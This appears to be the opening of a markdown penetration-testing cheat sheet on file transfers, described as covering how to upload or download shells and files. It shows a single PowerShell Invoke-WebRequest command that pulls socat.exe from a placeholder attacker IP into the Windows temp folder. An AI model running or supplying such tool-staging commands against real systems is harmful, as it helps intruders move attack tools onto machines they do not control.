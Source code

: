 ```yaml
---
description: Cheat sheet to upload or download shell/files etc
---
```


# File Transfers

### Download 

#### Powershell

```text
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```



